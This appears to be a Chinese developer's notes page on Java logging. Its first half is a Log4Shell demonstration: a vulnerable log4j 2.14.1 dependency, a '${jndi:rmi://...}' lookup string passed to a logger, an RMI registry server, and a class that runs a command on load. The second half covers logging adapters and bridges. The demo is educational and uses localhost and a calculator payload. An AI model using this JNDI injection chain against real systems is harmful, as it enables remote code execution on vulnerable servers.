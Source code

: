 [TOC]

### log4j漏洞演示

```xml
<!--使用log4j日志; <=2.14.1; >= 2.15.0修复-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

```xml
<!--log4j2.xml-->
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
	<!--全局参数-->
	<Properties>
		<Property name="pattern">log4j2: %d{yyyy-MM-dd HH:mm:ss} %5p [%t] - %m%n</Property>
	</Properties>
	<Loggers>
		<Root level="INFO">
			<AppenderRef ref="console"/>
		</Root>
	</Loggers>
	<Appenders>
		<!-- 定义输出到控制台 -->
		<Console name="console" target="SYSTEM_OUT" follow="true">
			<!--控制台只输出level及以上级别的信息-->
			<ThresholdFilter level="INFO" onMatch="ACCEPT" onMismatch="DENY"/>
			<PatternLayout>
				<Pattern>${pattern}</Pattern>
			</PatternLayout>
		</Console>
	</Appenders>
</Configuration>
```

```properties
# log4j.properties
log4j.rootLogger=DEBUG, stdout
log4j.appender.stdout.Target = System.out
log4j.appender.stdout=org.apache.log4j.ConsoleAppender
log4j.appender.stdout.layout=org.apache.log4j.PatternLayout
log4j.appender.stdout.layout.ConversionPattern=%5p [%t] - %m%n
```

```java
package cn.qingweico;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * -Dlog4j2.formatMsgNoLookups=true
 * @author zqw
 * @date 2022/3/13
 */
public class LogTest {
    private static final Logger logger = LogManager.getLogger("log4j");
    public static void main(String[] args) {
        String username="${java:os}";
        logger.info("Hello, {}",username);
    }
}

```

```xml
<!--使用slf4j日志-->
<!--slf4j适配log4j2-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j-impl</artifactId>
    <version>2.12.1</version>
</dependency>
```

```java
package cn.qingweico;

import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class LogTest {
    private static final Logger logger = LoggerFactory.getLogger("slf4j");
    public static void main(String[] args) {
        String username="${jndi:rmi://127.0.0.1:8080/lookup}";
        logger.info("Hello, {}",username);
    }
}
```

```java
package cn.qingweico;

import java.io.IOException;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class Look {
   static {
      try {
         Runtime.getRuntime().exec("calc");
      } catch (IOException e) {
         e.printStackTrace();
      }
   }
}
```

```java
package cn.qingweico;


import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class RmiServer {
   public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
      Registry registry = LocateRegistry.createRegistry(8080);
      registry.bind("lookup", new ReferenceWrapper(new Reference(
              null, "cn.qingweico.Look", null
      )));
   }
}
```

### 日志适配和桥接

```xml
<!--jcl -->
<dependency>
    <groupId>commons-logging</groupId>
    <artifactId>commons-logging</artifactId>
    <version>1.2</version>
</dependency>
<!--log4j-->
<dependency>
    <groupId>log4j</groupId>
    <artifactId>log4j</artifactId>
    <version>1.2.17</version>
</dependency>
<!--slf4j -->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-api</artifactId>
    <version>1.7.25</version>
</dependency>
```

```xml
<!--slf4j适配log4j1.x -->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-log4j12</artifactId>
    <version>1.7.25</version>
</dependency>
<!--slf4j适配log4j2-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j-impl</artifactId>
    <version>2.12.1</version>
</dependency>
<!--slf4j适配jcl-->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-jcl</artifactId>
    <version>1.7.25</version>
</dependency>
<!--log4j 桥接到 slf4j-->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>log4j-over-slf4j</artifactId>
    <version>1.7.25</version>
</dependency>
```

| 名称              | jar包                                         | 描述                             |
| ----------------- | --------------------------------------------- | -------------------------------- |
| log4j             | log4j-xxx.jar                                 | 早期常用日志组件                 |
| logback           | logback-core、logback-classic、logback-access | 一套日志组件的实现 性能优于log4j |
| log4j2            | log4j、log4-api 、log4j-core                  | apache 开发的一款log4j的升级产品 |
| java.util.logging | jdk                                           | Java 1.4 以来的官方日志实现      |

#### 适配器图示

![日志适配器](https://cdn.qingweico.cn/i0/%E6%97%A5%E5%BF%97%E9%80%82%E9%85%8D%E5%99%A8.png)

#### 桥接器图示

![日志桥接器](https://cdn.qingweico.cn/%E6%97%A5%E5%BF%97%E6%A1%A5%E6%8E%A5%E5%99%A8.png)